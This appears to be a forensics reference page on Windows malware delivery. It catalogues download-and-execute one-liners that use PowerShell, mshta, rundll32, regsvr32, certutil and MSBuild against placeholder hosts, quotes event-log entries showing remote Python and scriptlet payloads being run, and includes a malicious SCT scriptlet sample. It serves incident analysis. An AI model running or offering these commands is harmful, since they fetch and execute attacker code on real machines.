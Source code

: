 # Forensics miscellaneous

## powershell malware

```
> powershell -c "anystring|iex"
> powershell  -noP -sta -w 1 -enc base64string
```


## executing web delivered malware

[arno0x0x: Windows oneliners to download remote payload and execute arbitrary code](https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code). depending on download way, the artefacts might end up in downloader component cache

```
> powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://webserver/payload.ps1')|iex"
> powershell -exec bypass -f \\webdavserver\folder\payload.ps1

> cmd.exe /k < \\webdavserver\folder\batchfile.txt

> cscript //E:jscript \\webdavserver\folder\payload.txt

> mshta vbscript:Close(Execute("GetObject(""script:http://webserver/payload.sct"")"))
> mshta http://webserver/payload.hta
> mshta \\webdavserver\folder\payload.hta

> rundll32 \\webdavserver\folder\payload.dll,entrypoint
> rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";o=GetObject("script:http://webserver/payload.sct");window.close();

> wmic os get /format:"https://webserver/payload.xsl"

> C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /u \\webdavserver\folder\payload.dll

> regsvr32 /u /n /s /i:http://webserver/payload.sct scrobj.dll
> regsvr32 /u /n /s /i:\\webdavserver\folder\payload.sct scrobj.dll

> odbcconf /s /a {regsvr \\webdavserver\folder\payload_dll.txt}

> cmd /V /c "set MB="C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe" & !MB! /noautoresponse /preprocess \\webdavserver\folder\payload.xml > payload.xml & !MB! payload.xml"

> certutil -urlcache -split -f http://webserver/payload payload
> certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.dll & C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil /logfile= /LogToConsole=false /u payload.dll
> certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.exe & payload.exe
```

## Other

malware can be delivered by virtualization platform
```
"25.04.2018 12:44:52","A new process has been created.","C:\Program Files\VMware\VMware Tools\vmtoolsd.exe","NT AUTHORITY\SYSTEM","0x15e8","C:\Windows\System32\cmd.exe","""cmd.exe"" /s /c cmd >C:\Users\PILOT~1.OPE\AppData\Local\Temp\powerclivmware177 2>&1 /s /c ""schtasks /create /sc once /tn 9dc3c659f9881e409bf1b5648bd1c3728a287e79 /tr ""python -c \""import urllib2; exec urllib2.urlopen(\\\""http://a.b.c.d:80/b\\\"").read();\"""" /st 13:00 /F & schtasks /run /tn 9dc3c659f9881e409bf1b5648bd1c3728a287e79 & ping 127.0.0.1 -n 6 > nul & schtasks /create /sc once /tn 9dc3c659f9881e409bf1b5648bd1c3728a287e79 /tr "" - MGMT STUFF - "" /st 13:00 /F & schtasks /delete /tn 9dc3c659f9881e409bf1b5648bd1c3728a287e79 /F"""
```


### RuntimeBroker.exe

A standard component from Windown 10 connected to ui(metro?) and store. The documentation states that it controlls permissions of apps from store, but also it executes commands and programs when full path (eg. powershell.exe) is typed into Start searchbox. On search and click, the program is spawned by explorer.exe, but on enter it is spawned by RuntimeBroker.exe. Also, any invocation of microsoft egde is handled by RuntimeBroker.exe. There is probably a way how to hook startup app to the broker ...

```
"26.04.2018 11:25:50","A new process has been created.","C:\Windows\System32\svchost.exe","NT AUTHORITY\NETWORK SERVICE","0x1b1c","C:\Windows\System32\rdpclip.exe","rdpclip"
"26.04.2018 11:25:50","A new process has been created.","C:\Windows\System32\winlogon.exe","NT AUTHORITY\SYSTEM","0x1c34","C:\Windows\System32\AtBroker.exe","atbroker.exe"
"26.04.2018 11:25:50","A new process has been created.","C:\Windows\System32\winlogon.exe","NT AUTHORITY\SYSTEM","0x276c","C:\Windows\System32\LogonUI.exe","""LogonUI.exe"" /flags:0x0 /state0:0xa1e48055 /state1:0x41c64e6d"
...
"26.04.2018 11:26:00","A new process has been created.","C:\Windows\System32\svchost.exe","NT AUTHORITY\SYSTEM","0x1988","C:\Windows\System32\RuntimeBroker.exe","C:\Windows\System32\RuntimeBroker.exe -Embedding"
"26.04.2018 11:26:03","A new process has been created.","C:\Windows\System32\RuntimeBroker.exe","BACKUPPILOT\pilot.operator","0x25f0","C:\Windows\System32\regsvr32.exe","""C:\Windows\System32\regsvr32.exe"" /u /n /s /i:http://domainx/g.html scrObj.dll"
```




### regsvr32 download scriptlet
```
C:\Windows\system32\regsvr32.exe /u /n /s /i:http://domain/g.html scrObj.dll

<?XML version="1.0"?>
<scriptlet>
	<registration description="Win32COMDebug" progid="Win32COMDebug" version="1.00" classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}">
<script language="JScript">
<![CDATA[
var r = new ActiveXObject("WScript.Shell").Run('powershell -noP -sta -w 1 -enc SQBmACgAJABQ...');
]]>
</script>
	</registration>
	<public><method name="Exec"></method></public>
</scriptlet>
```
